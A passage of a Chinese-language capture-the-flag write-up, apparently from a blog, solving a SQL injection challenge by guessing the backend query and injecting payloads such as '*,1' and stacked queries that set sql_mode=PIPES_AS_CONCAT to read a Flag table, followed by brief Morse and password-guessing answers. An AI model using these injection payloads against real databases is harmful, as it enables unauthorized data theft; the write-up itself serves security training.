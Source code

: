 #### 1*,1

我们猜到后台命令 我们可以尝试更改

```cobol
select 1 ||flag from Flag
select *,1 ||flag from Flag
 
这样 就会返回所有的数据
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/dcbade45f6e555a52d49a8365955f962.png" alt="" style="max-height:181px; box-sizing:content-box;" />


#### 2.更改 || 类型

在mysql中  || 为 或

我们只要把 || 改为连接符就行了 他就会返回数值

```cobol
sql_mode=PIPES_AS_CONCAT来转换操作符的作用
```

```cobol
1;set sql_mode=PIPES_AS_CONCAT;select 1
 
 
select 1;set sql_mode=PIPES_AS_CONCAT;select 1 ||flag from Flag
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/c1b684a0f44026b24467211050721654.png" alt="" style="max-height:170px; box-sizing:content-box;" />


得到flag

## Crypto

### 摩丝



<img src="https://i-blog.csdnimg.cn/blog_migrate/19b46bcb485b0531db68dcdef6e1e04b.png" alt="" style="max-height:467px; box-sizing:content-box;" />


### password

```cobol
姓名：张三 
生日：19900315
 
key格式为key{xxxxxxxxxx}
```

```cobol
flag{zs19900315}
```
